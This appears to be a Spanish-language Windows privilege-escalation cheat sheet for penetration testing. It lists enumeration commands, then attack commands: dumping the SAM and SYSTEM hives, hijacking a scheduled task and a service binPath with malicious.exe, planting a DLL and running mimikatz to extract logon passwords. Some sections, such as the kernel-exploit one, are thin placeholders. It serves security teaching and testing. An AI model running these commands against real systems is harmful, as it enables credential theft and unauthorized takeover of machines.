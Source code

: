 # Cheat Sheet: Escalación de Privilegios en Windows**

## 🔍 Sección 1: Enumeración

### 1. Información del sistema

```powershell
systeminfo
wmic os get Caption, Version, Architecture
whoami /priv
whoami /groups
```

### 2. Usuarios y grupos

```powershell
net user
net localgroup Administrators
quser
Get-LocalUser | Select Name,Enabled,LastLogon
```

### 3. Permisos y archivos sensibles

```powershell
icacls C:\ruta\archivo
findstr /si password *.txt *.ini *.config
(Get-PSDrive -PSProvider FileSystem).Root | ForEach-Object {Get-ACL $_}
```

### 4. Procesos y tareas en ejecución

```powershell
tasklist /v
wmic process list full
Get-Process | Select-Object Name,Id,Path
```

### 5. Servicios y conexiones

```powershell
netstat -ano
sc query state= all
Get-Service | Select Name,StartType,Status
```

### 6. Tareas programadas y servicios inseguros

```powershell
schtasks /query /fo LIST /v
Get-ScheduledTask | Where-Object {$_.State -eq "Ready"}
```

### 7. Variables de entorno

```powershell
env | fl
(Get-Item Env:Path).Value -split ';'
```

### 8. Capacidades de binarios

```powershell
wmic path win32_service get Name,PathName,StartMode
Get-AppLockerPolicy -Effective | Select -ExpandProperty RuleCollections
```

### 9. Control de acceso remoto

```powershell
qwinsta
query user
netsh advfirewall show currentprofile
```

## 💥 Sección 2: Explotación

### 1. Abuso de permisos en archivos y directorios

```powershell
icacls C:\ruta\archivo /grant Everyone:F
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
```

### 2. Tareas programadas y servicios inseguros

```powershell
schtasks /create /tn "MaliciousTask" /tr C:\malicious.exe /sc ONCE /st 00:00
sc config VulnService binPath= "C:\malicious.exe"
```

### 3. Uso de runas y bypass UAC

```powershell
runas /user:Administrador cmd.exe
Start-Process PowerShell -Verb RunAs
```

### 4. Explotación de servicios vulnerables

```powershell
Get-WmiObject -Class Win32_Service | Where-Object {$_.PathName -like "*unquoted path*"}
```

### 5. Abuso de binarios con permisos incorrectos

```powershell
wmic service where "PathName like '%inseguro%'" get Name,PathName
```

### 6. Inyección de DLL y ejecución maliciosa

```powershell
Copy-Item .\malicious.dll "C:\Program Files\VulnerableApp\malicious.dll"
```

### 7. Credenciales en memoria

```powershell
mimikatz.exe
sekurlsa::logonpasswords
```

### 8. Kernel Exploits

```powershell
whoami /priv
```
